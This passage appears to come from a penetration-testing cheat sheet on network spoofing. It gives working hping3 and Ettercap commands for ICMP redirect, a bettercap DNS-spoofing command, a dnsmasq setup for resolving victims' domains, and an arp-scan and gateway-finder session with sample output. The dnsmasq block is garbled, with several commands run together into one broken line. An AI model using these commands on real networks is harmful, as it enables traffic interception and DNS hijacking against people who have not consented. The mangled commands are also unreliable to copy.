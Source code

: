 ### ICMPRedirect

ICMP Redirect consist on sending an ICMP packet type 1 code 5 that indicates that the attacker is the best way to reach an IP. Then, when the victim wants to contact the IP, it will send the packet through the attacker.

```bash
Ettercap
icmp_redirect
hping3 [VICTIM IP ADDRESS] -C 5 -K 1 -a [VICTIM DEFAULT GW IP ADDRESS] --icmp-gw [ATTACKER IP ADDRESS] --icmp-ipdst [DST IP ADDRESS] --icmp-ipsrc [VICTIM IP ADDRESS] #Send icmp to [1] form [2], route to [3] packets sent to [4] from [5]
```

### DNS Spoofing

The attacker will resolve some (or all) the domains that the victim ask for.

```bash
set dns.spoof.hosts ./dns.spoof.hosts; dns.spoof on
```

**Configure own DNS with dnsmasq**

```bash
apt-get install dnsmasqecho "addn-hosts=dnsmasq.hosts" > dnsmasq.conf #Create dnsmasq.confecho "127.0.0.1   domain.example.com" > dnsmasq.hosts #Domains in dnsmasq.hosts will be the domains resolved by the Dsudo dnsmasq -C dnsmasq.conf --no-daemon
dig @localhost domain.example.com # Test the configured DNS
```

### Local Gateways

Multiple routes to systems and networks often exist. Upon building a list of MAC addresses within the local network, use _gateway-finder.py_ to identify hosts that support IPv4 forwarding.

```
root@kali:~# git clone https://github.com/pentestmonkey/gateway-finder.git
root@kali:~# cd gateway-finder/
root@kali:~# arp-scan -l | tee hosts.txt
Interface: eth0, datalink type: EN10MB (Ethernet)
Starting arp-scan 1.6 with 256 hosts (http://www.nta-monitor.com/tools/arp-scan/) 
10.0.0.100     00:13:72:09:ad:76       Dell Inc.
10.0.0.200     00:90:27:43:c0:57       INTEL CORPORATION
10.0.0.254     00:08:74:c0:40:ce       Dell Computer Corp.

root@kali:~/gateway-finder# ./gateway-finder.py -f hosts.txt -i 209.85.227.99
gateway-finder v1.0 http://pentestmonkey.net/tools/gateway-finder
[+] Using interface eth0 (-I to change)
[+] Found 3 MAC addresses in hosts.txt
[+] We can ping 209.85.227.99 via 00:13:72:09:AD:76 [10.0.0.100]
[+] We can reach TCP port 80 on 209.85.227.99 via 00:13:72:09:AD:76 [10.0.0.100]
```

### [Spoofing LLMNR, NBT-NS, and mDNS](spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md)
